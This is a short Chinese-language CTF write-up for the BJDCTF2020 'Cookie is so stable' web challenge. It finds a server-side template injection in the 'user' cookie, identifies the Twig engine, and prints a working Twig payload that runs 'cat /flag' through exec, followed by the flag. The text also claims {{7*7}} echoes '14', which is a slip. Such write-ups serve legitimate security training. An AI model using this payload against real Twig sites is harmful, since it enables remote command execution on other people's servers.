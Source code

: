 ```yaml
---
title: BJDCTF2020 Cookie is so stable
date: 2023-11-16
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机网页，寻找注入点

![](https://z1.ax1x.com/2023/11/06/pildCOU.png)

发现这里输入什么都会原模原样地回显，再根据题目中提到的 Cookie，发现有一个 Cookie 叫做 user，与我们输入的内容挂钩，判断此 Cookie 为注入点

于是试试看 SSTI，输入一个 `{{7*7}}`，发现回显是 `14`，那么 SSTI 实锤了，现在就想想看是哪个引擎，目前能从 Wappalyzer 上得出来的只是 PHP，那么大概率是 Twig，验证一下

我们在 `user` 中输入 `{{7*'7'}}`，如果返回是 `49`，那么就是 Twig（如果返回是 `7777777`，就是 Jinja2）

## 构建 Payload

既然是 Twig，那么 Payload 就是固定的，有一个查看 Flag 的 Payload 就是

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

最后得出 Flag 是 `flag{38e17dcd-e574-4bec-80a1-2eee0b58dd64}`